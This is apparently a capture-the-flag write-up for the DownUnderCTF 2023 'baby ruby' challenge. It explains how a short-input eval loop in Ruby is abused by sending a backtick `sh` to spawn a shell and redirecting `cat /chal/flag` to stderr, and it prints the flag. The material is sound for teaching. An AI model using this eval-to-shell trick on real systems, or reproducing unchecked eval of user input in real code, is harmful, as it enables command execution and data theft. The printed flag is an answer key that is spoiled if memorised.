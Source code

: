 # DownUnderCTF 2023

## baby ruby

> How well do you know your Ruby?
> 
> The flag is at `/chal/flag`.
>
>  Author: hashkitten
>
> [`baby.rb`](baby.rb)

Tags: _misc_

## Solution
For this challenge we get a very short `Ruby` code:

```ruby
#!/usr/bin/env ruby

while input = STDIN.gets.chomp do eval input if input.size < 5 end
```

The program takes input and calls `eval` on it if the input length is less than 5. Thats not much we can send, but there is \`cmd\`, that allows us to spawn a shell.

```ruby
$ nc 2023.ductf.dev 30028
`sh`
cat /chal/flag
```

Sadly no output is given. After trying around a bit I noticed that only errors are printed. This probably means that only stderr is displayed. So forwarding our output to stderr gives the flag.

```ruby
$ nc 2023.ductf.dev 30028
`sh`
cat /chal/flag 1>&2
DUCTF{how_to_pwn_ruby_in_four_easy_steps}
```

Flag `DUCTF{how_to_pwn_ruby_in_four_easy_steps}`
